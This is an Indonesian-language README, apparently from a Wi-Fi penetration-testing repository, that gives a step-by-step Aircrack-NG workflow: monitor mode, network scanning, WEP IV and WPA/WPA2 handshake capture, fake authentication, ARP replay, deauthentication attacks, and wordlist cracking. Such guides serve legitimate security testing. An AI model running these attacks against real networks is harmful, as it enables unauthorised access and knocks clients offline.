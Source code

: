 # Aircrack-NG

![Aircrack-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/aircrack-ng/img/aircrack-ng.jpg)

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

### 1. Scan Wi-Fi:

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:

   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

### 2. Capture Handshake/IVs

1. WEP:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WEP --ivs --write [output] [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WPA,WPA2 --write [output] [interface]
   ```

### 3. Jalankan Serangan:

1. WEP:

   1. Buat autentikasi palsu ke AP target:

      ```
      sudo aireplay-ng --fakeauth 0 -a [bssid] -h [mac_interface] [interface]
      ```
   2. Menangkap dan me-replay paket ARP untuk menghasilkan traffic:

      ```
      sudo aireplay-ng --arpreplay -b [bssid] -h [mac_interface] [interface]
      ```
   3. Tunggu hingga IVs terkumpul cukup banyak.
      - Minimal sekitar 40.000 - 85.000 IVs untuk WEP 64-bit
      - Minimal sekitar 85.000 - 150.000 IVs untuk WEP 128-bit
2. WPA/WPA2-PSK:

   1. Putuskan koneksi client menggunakan Deauth Attack:

      ```
      sudo aireplay-ng --deauth [jumlah] -a [bssid] [interface]
      ```
      
      > **Catatan:**
      > - Kalau ingin deauth client tertentu gunakan opsi `-c [mac_client]` setelah opsi `-a [bssid]`.
      > - Kalau ingin deauth terus-menerus tanpa henti ganti `[jumlah]` dengan `0`.
   2. Tunggu hingga handshake tertangkap.
      - Lihat notifikasi `WPA handshake: [BSSID]` di `airodump-ng`.
### 4. Crack Handshake/IVs

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Catatan Penting

1. WEP:
   - Harus ada minimal 1 client yang terhubung ke AP untuk serangan ARP Replay berhasil.
   - Jika tidak ada client yang terhubung, serangan akan gagal karena tidak ada traffic ARP yang bisa di-capture dan di-replay.
2. WPA/WPA2-PSK:
   - Harus ada minimal 1 client yang terhubung untuk melakukan Deauth Attack.
   - Jika tidak ada client, handshake tidak bisa ditangkap karena tidak ada yang bisa di-deauth.

## Video Demonstrasi

1. WEP:

   Link: [https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP](https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP)
2. WPA/WPA2-PSK:

   Link: [https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6](https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6)
